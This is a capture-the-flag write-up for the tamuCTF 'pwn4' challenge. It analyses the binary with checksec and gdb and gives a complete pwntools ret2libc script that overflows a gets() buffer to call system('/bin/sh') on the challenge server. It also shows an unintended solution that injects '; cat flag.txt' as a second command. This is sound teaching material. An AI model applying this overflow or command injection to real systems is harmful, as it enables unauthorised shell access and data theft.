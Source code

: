 ## tamuCTF: pwn4
##### *tl;dr: ret2libc + unintended solution*
#### This challenge was a bit odd, not only because I was unfamiliar with the intended way of solving it but because of the unintended solution. Maybe the challenge creators have overlooked it? At this point, I'd want to explain the intended solution first to have a more in-depth discussion of what it is and how it is executed after which is just showing how to do the intended way. First things first, check for the security properties of the binary using *checksec*:
```
$ checksec pwn4
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
#### We can see that NX is enabled, this means that the stack has its non executable properties turned on, we can't execute code we put in the stack, thus we can't get a shell using shellcode. But before we jump to which exploit method to do, we have to play around with the binary.
```
$ ./pwn4
    ls as a service (laas)(Copyright pending)
    Enter the arguments you would like to pass to ls:
    aaaaaaaaaaaaaa
    Result of ls aaaaaaaaaaaaaa:
    ls: cannot access 'aaaaaaaaaaaaaa': No such file or directory
    ls as a service (laas)(Copyright pending)
    Enter the arguments you would like to pass to ls:
```
#### We see here that the binary just loops again and again, performing this process called ls as a service (laas). As the prompt says, we need to enter arguments for ls. Let's try putting in actual ls arguments:
```
$ ./pwn4
    ls as a service (laas)(Copyright pending)
    Enter the arguments you would like to pass to ls:
    -a
    Result of ls -a:
    .   exploit.py		   flag.txt	 peda-session-ls.txt	pwn4
    ..  exploit_unintended.py  .gdb_history  peda-session-pwn4.txt
    ls as a service (laas)(Copyright pending)
    Enter the arguments you would like to pass to ls:
    -l
    Result of ls -l:
    total 32
    -rw-r--r-- 1 aries aries  479 Mar  7 14:38 exploit.py
    -rw-r--r-- 1 aries aries  214 Mar  7 02:55 exploit_unintended.py
    -rw-r--r-- 1 aries aries   23 Feb 27 23:56 flag.txt
    -rw-r--r-- 1 aries aries    7 Mar  7 14:18 peda-session-ls.txt
    -rw-r--r-- 1 aries aries   12 Mar  7 14:34 peda-session-pwn4.txt
    -rwxr-xr-x 1 aries aries 7504 Feb 20 02:45 pwn4
```
#### Interesting. It actually runs the ls utility and performs it with the specified arguments, but if we input random gibberish we get nothing. We don't know our exploit method yet, but we do know that the binary runs the ls process in a loop. Let's fire up gdb to understand what's happening a little bit more:
```
$ gdb ./pwn4
    gdb-peda$ disas main
    Dump of assembler code for function main:
       [...]
       0x08048670 <+50>:	call   0x80485bb <laas>
       0x08048675 <+55>:	jmp    0x8048670 <main+50>
    End of assembler dump.
```
#### Proof that the binary just runs in a loop. Let's take a look at the laas function:
```
$ gdb ./pwn4
    gdb-peda$ disas laas
       [...]
       0x080485f4 <+57>:	lea    eax,[ebp-0x21]
       0x080485f7 <+60>:	push   eax
       0x080485f8 <+61>:	call   0x80483d0 <gets@plt>
       0x080485fd <+66>:	add    esp,0x10
       0x08048600 <+69>:	sub    esp,0x8
       0x08048603 <+72>:	push   0x2f
       0x08048605 <+74>:	lea    eax,[ebp-0x21]
       0x08048608 <+77>:	push   eax
       0x08048609 <+78>:	call   0x8048400 <strchr@plt>
       0x0804860e <+83>:	add    esp,0x10
       0x08048611 <+86>:	test   eax,eax
       0x08048613 <+88>:	jne    0x8048626 <laas+107>
       0x08048615 <+90>:	sub    esp,0xc
       0x08048618 <+93>:	lea    eax,[ebp-0x21]
       0x0804861b <+96>:	push   eax
       0x0804861c <+97>:	call   0x8048566 <run_cmd>
       [...]
```
#### We see a gets() call, which we know by now to be vulnerable to buffer overflow attacks, and as seen on the results of checksec, there is no stack canary for the binary which means we can be able to perform the attack. One last thing to look at is the run_cmd function:
```
$ gdb ./pwn4
    gdb-peda$ disas run_cmd
       [...]
       0x080485a9 <+67>:	lea    eax,[ebp-0x26]
       0x080485ac <+70>:	push   eax
       0x080485ad <+71>:	call   0x80483f0 <system@plt>
       0x080485b2 <+76>:	add    esp,0x10
```
#### The function calls ```<system@plt>``` which is used to issue a command to be executed, in the binary's case, it executes the ls command which prints out the contents of the directory and other options based on what argument is given. What makes this interesting is that system function is stored in the ```C Library```, specifically in stdlib.h.This is where we are introduced to the concept of ```ret2libc``` (return to libc) which is a means to defeat a non-executable stack by using the functions stored in the C Library. Piecing together what we know so far, our exploid method will be a buffer overflow into ret2libc. For this, we'll need the offset to overflow the buffer (which we already know from the disassembly of the laas function, the buffer has a size of 33 (0x21) and we'll need 4 bytes more - total of 37 bytes to smash the stack), the address of the system function and /bin/sh which we would pass to system in order for us to get a shell. We can do this with gdb:
```
$ gdb ./pwn4
    gdb-peda$ x/ system
        0x80483f0 <system@plt>:	0xa01825ff
```
#### We now know where system is stored at, which is at address 0x80483f0. Next we'll need to locate the /bin/sh string (why string? because system requires a string argument, which will be the function it'll execute), we can do this with the ```find``` functionality of gdb:
```
$ gdb ./pwn4
    gdb-peda$ find /bin/sh
        Searching for '/bin/sh' in: None ranges
        Found 1 results, display max 1 items:
        pwn4 : 0x804a034 ("/bin/sh")
```
#### Now we have all the ingredients we need for our exploit code. But before we head onto that, we need to take in mind the order for our exploit which is ```offset + system_address + four_dummy_bytes + bin_sh```, the reason for this is because it has something to do with the function prologue of the system function. Essentially, this is the part of the function that sets up the stack frame the function will use. This includes making sure that arguments are passed to the function correctly. Now our exploit:
##### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = 'pwn.tamuctf.com'
PORT = 4324
p = remote(HOST,PORT)
# p = process('./pwn4')
print(p.recv())

#: Exploit code
offset = 'A' * 37
system = p32(0x080483f0)
junk = p32(0xdeadbeef)
bin_sh = p32(0x0804a034) 
exploit = offset + system + junk + bin_sh

#: Send data
p.sendline(exploit)
print(p.recv())
p.sendline('cat flag.txt')
print(p.recv())
```
#### Now we run our exploit and get the flag!:
```
$ python exploit.py
ls as a service (laas)(Copyright pending)
Enter the arguments you would like to pass to ls:

Result of ls AAAAAAAAAAAAAAAAAAAAAAA:

gigem{5y573m_0v3rfl0w}
```
#### The unintended solution
#### We can just seperate which commands to execute in the terminal using a semicolon ```(;)```. We can simply connect to the server and input ```; cat flag.txt``` which will output the flag for us.
